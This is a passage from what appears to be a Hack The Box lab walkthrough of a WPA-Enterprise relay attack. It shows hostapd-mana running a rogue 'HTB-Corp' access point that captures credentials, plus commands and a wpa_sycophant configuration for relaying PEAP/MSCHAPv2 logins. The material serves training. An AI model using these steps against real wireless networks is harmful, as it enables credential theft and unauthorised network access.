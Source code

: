 ```
root@HTB-Corp:/home/wifi# hostapd-mana ./hostapd.conf

Configuration file: ./hostapd.conf
MANA: Captured credentials will be written to file 'credentials.creds'.
MANA: Sycohpant state directory set to /tmp/.
rfkill: Cannot open RFKILL control device
Using interface wlan1 with hwaddr e6:85:dd:08:eb:60 and ssid "HTB-Corp"
random: Only 16/20 bytes of strong random data available from /dev/random
random: Not enough entropy pool available for secure operations
WPA: Not enough entropy in random pool for secure operations - update keys later when the first station connects
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED
```

Students will open a new terminal, switch to the `root` user, and take a note of the MAC address of the `wlan1` interface using `ifconfig`, they will change their current working directory to `/opt/wpa_sycophant`:

Code: shell

```shell
sudo -s
ifconfig wlan1 | grep ether | awk '{print $2}'
cd /opt/wpa_sycophant
```

```
wifi@HTB-Corp:~$ sudo -s
root@HTB-Corp:/home/wifi# ifconfig wlan1 | grep ether | awk '{print $2}'

e6:85:dd:08:eb:60

root@HTB-Corp:/home/wifi# cd /opt/wpa_sycophant
```

Subsequently, students will create a `wpa_sycophant.config` file where they will take the previously obtained MAC address of the `wlan1` interface and are going to place the value in the `bssid_blacklist` variable:

Code: configuration

```configuration
network={
  ssid="HTB-Corp"
  scan_ssid=1
  key_mgmt=WPA-EAP
  identity=""
  anonymous_identity=""
  password=""
  eap=PEAP
  phase1="crypto_binding=0 peaplabel=0"
  phase2="auth=MSCHAPV2"
  bssid_blacklist=e6:85:dd:08:eb:60
}
```
